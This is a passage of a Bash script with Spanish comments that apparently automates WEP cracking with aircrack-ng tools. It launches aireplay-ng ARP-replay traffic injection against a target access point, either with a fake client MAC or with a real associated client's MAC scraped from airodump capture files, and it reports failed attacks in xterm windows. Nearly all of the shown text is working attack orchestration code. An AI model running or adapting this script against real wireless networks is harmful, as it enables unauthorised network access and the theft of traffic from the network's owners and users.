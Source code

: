 		xterm $HOLD $MAL $FUENTE $ATAQUE2_VENTANA -title "ATAQUE -2 [Selección automática del paquete] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}

#INYECCION DE TRÁFICO - ATAQUE 3 con cliente falso
ataque_3_1()
{
if [ "$INTERFAZ_GRAFICA" = "SI" ]
then
	xterm $NORMAL $FUENTE $ATAQUE3_1_VENTANA -title "ATAQUE -3 [Reinyección con cliente falso]" -e $AIREPLAY -3 -x 1024 -g 1000000 -b $MAC_AP -h $MAC_INTERFAZ -i $INTERFAZ_MONITOR $INTERFAZ_MONITOR
else
	$SCREEN -dm -t "ataque-3" $AIREPLAY -3 -x 1024 -g 1000000 -b $MAC_AP -h $MAC_INTERFAZ -i $INTERFAZ_MONITOR $INTERFAZ_MONITOR
	esperar_cierre "$AIREPLAY -3 -x"
fi
comprobar_airodump
if [ "$AIRODUMP_FUNCIONANDO" != "" ] #SI FALLA EL ATAQUE, ESPERA A QUE SE CIERRE AIRODUMP PARA CERRARSE
then
	if [ "$INTERFAZ_GRAFICA" = "SI" ]
	then
		xterm $HOLD $MAL $FUENTE $ATAQUE3_1_VENTANA -title "ATAQUE -3 [Reinyección con cliente falso] - ### FALLIDO ###" -e echo -e "\n\t### ATAQUE FALLIDO ### \c"
	fi
fi
}

#INYECCION DE TRÁFICO - ATAQUE 3 con cliente real
ataque_3_2()
{
CLIENTE="" #inicializamos la variable en la que guardaremos la MAC del cliente
INTENTOS_CLIENTE=1 #inicializamos la variable de intentos de ataque con cliente real
comprobar_airodump #comprobamos que airodump sigue activo
while [ "$AIRODUMP_FUNCIONANDO" != "" ] #mientras airodump siga activo se buscarán clientes asociados al AP
do
	while [ "$CLIENTE" = "" ] && [ "$AIRODUMP_FUNCIONANDO" != "" ]
	do
		CLIENTES=`cat $CAPTURA/"$NOMBRE_AP ($MAC_GUIONES)"-*.csv | grep -v WEP | grep $MAC_AP | awk -F ',' '{print $1}'| awk '{gsub(/ /,""); print}'` #TODOS LOS CLIENTES DETECTADOS
		CUANTOS_CLIENTES=`echo $CLIENTES | wc -w`
		CLIENTE=`echo $CLIENTES | awk '{print $1}'` #seleccionamos el primer cliente conectado
		if [ "$CLIENTE" = "$MAC_INTERFAZ" ] #si el cliente detectado somos nosotros
		then
			if [ $CUANTOS_CLIENTES -gt 1 ] #y si hay alguien más conectado, además de nosotros
			then
				CLIENTE=`echo $CLIENTES | awk '{print $2}'` #seleccionamos el segundo
			else
				CLIENTE="" #sinó reiniciamos la variable para que no se salga del bucle y siga buscando
				if [ "$INTERFAZ_GRAFICA" = "SI" ]
				then
					xterm $NORMAL $FUENTE $ATAQUE3_2_VENTANA -title "ATAQUE -3 [Reinyección con cliente real] - Buscando clientes..." -e 'echo -e "\n\tBuscando clientes... Sólo yo estoy asociado... \c"; sleep $ESPERA' &
				fi
			fi
		else
			if [ "$INTERFAZ_GRAFICA" = "SI" ]
			then
				xterm $NORMAL $FUENTE $ATAQUE3_2_VENTANA -title "ATAQUE -3 [Reinyección con cliente real] - Buscando clientes..." -e 'echo -e "\n\tBuscando clientes... \c"; sleep $ESPERA' &
			fi